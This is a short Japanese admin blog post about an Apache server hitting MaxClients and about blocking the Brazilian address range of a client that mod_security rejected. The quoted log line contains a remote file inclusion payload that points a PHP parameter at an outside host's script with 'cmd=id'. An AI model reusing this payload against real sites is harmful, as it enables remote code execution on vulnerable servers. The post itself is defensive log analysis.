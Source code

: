 またか…。
==========

今週もMaxClientsで落ちた。うーん、変なアクセスをしてくるところが多いのと、サーチエンジンのロボット検索がやたら増えてきたなぁ。で、明らかにおかしいリクエストを出して、modsecurityで落ちている。


.. code-block:: sh


   [Sat Mar 31 10:23:22 2007] [error] [client 201.79.41.96] mod_security: Access de
   nied with code 500. Pattern match "^$" at HEADER [hostname "hogehoge"] [ur
   i "http://hogehoge/index.php?XA4F2B5AFC6B0A4C7A4ADA4CAA4A413kfl72.14.209.1
   04/cache:ELL9KACjZWUJ:hogehoge/index.php3FX25A425F225B525AF25C625B025A425C
   725A425AD25A425CA25A425A4=http://prm.hardbr.com/tool25.txt?&cmd=id"]


このアクセス元を逆引きすると、20178001001.user.veloxzone.com.br.のような感じで引ける。アドレス範囲は201.78.0.0/15で、ブラジルからなので、来てもらわんでも特に問題なし。すべて許否することにした。

それにしても、なんとかしないとなぁ、この状況。１月から、２、３月とアクセスが２倍、３倍と増えてきてるもんなぁ。そろそろやばいか。






.. author:: default
.. categories:: security,Unix/Linux
.. tags::
.. comments::
